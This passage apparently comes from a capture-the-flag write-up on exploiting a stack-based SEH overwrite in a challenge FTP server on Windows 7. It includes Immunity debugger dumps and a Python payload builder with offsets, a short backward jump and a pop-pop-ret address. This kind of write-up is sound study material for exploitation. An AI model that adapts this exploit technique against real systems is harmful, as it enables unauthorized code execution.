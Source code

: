 ``` text Immunity assembler dump
022CFFBC   41               INC ECX
022CFFBD   41               INC ECX
022CFFBE   41               INC ECX
022CFFBF   41               INC ECX
022CFFC0   41               INC ECX
022CFFC1   41               INC ECX
022CFFC2   41               INC ECX
022CFFC3   41               INC ECX
022CFFC4   CC               INT3                      <== EIP points here
022CFFC5   CC               INT3
022CFFC6   CC               INT3
022CFFC7   CC               INT3
022CFFC8   2337             AND ESI,DWORD PTR DS:[EDI]
022CFFCA   40               INC EAX
```

We have control. But this is where things start to change. It turns out that on Windows 7 the offset of our shellcode start is slightly different. The overwrite with zeros (as per the XP version) is still there, but appears in a different spot. We've got a few more bytes to play with around the shellcode area due to use not having to deal with `EIP` having a valid address in the middle of our shellcode. A quick calculation reveals that we have a total of `0x54` (`84`) bytes to play with. We can adjust our payload again to set up for more shellcode golf with the following code:

``` python More payload generation
seh_offset = 354
nseh_offset = seh_offset - 4
sc_len = 0x54
sc_offset = nseh_offset - sc_len
payload  = "A" * sc_offset
payload += "\xCC" * 4
payload += "A" * (nseh_offset - len(payload))
payload += "\xEB\xAA\x90\x90"            # jmp back to sc_offset start
payload += struct.pack("<L", 0x00403723)
```

We fire this off again and we see this at the point where the PPR returns:

``` text PPR return
0231FFC1   41               INC ECX
0231FFC2   41               INC ECX
0231FFC3   41               INC ECX
0231FFC4  ^EB AA            JMP SHORT 0231FF70         <= EIP is here
0231FFC6   90               NOP
0231FFC7   90               NOP
0231FFC8   2337             AND ESI,DWORD PTR DS:[EDI]
```

At which point we then jump to the start of our shellcode here:

``` text Shellcode start
0231FF6C   0000             ADD BYTE PTR DS:[EAX],AL
0231FF6E   0000             ADD BYTE PTR DS:[EAX],AL
0231FF70   CC               INT3                       <= EIP is here
0231FF71   CC               INT3
0231FF72   CC               INT3
0231FF73   CC               INT3
0231FF74   41               INC ECX
0231FF75   41               INC ECX
0231FF76   41               INC ECX
0231FF77   41               INC ECX
```


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization